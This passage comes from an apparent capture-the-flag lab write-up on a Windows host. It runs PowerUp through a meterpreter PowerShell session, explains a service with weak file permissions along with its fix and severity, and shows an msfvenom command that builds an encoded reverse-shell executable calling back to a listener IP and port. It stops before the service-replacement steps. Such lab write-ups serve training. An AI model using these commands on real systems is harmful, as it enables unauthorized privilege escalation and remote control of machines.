 We upload the file to the remote machine with the `upload` command in the meterpreter session, we type `load powershell` to access a poweshell shell and run the script as follows

````shell
meterpreter > load powershell
Loading extension powershell...Success.
meterpreter > powershell_shell
PS > . .\PowerUp.ps1
PS > Invoke-AllChecks
````
### Vulnerability Exploited

The output of the previous command gives us this information about this windows service

![Exploitable Windows Service](https://raw.githubusercontent.com/TTWabbit/ttwabbit.github.io/master/static/img/_posts/steelmountain/sm6.png "Exploitable windows service")

### Vulnerability Explanation

The remote Windows host has one service with weak file permissions, allowing a
local attacker to gain elevated privileges rewriting it and restarting the service.

### Vulnerability Fix

Ensure that any service executable has the proper permissions.

### Severity

Critical

### Exploit Code

We use `msfvenom` to generate a reverse shell as a Windows executable

````shell
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.23.211 LPORT=4443 -e x86/shikata_ga_nai -f exe -o Advanced.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of exe file: 73802 bytes
Saved as: Advanced.exe
````
We start a listener on port 4443, go back the the meterpreter session, upload the file created, stop the service, replace the file and restart the service as follows
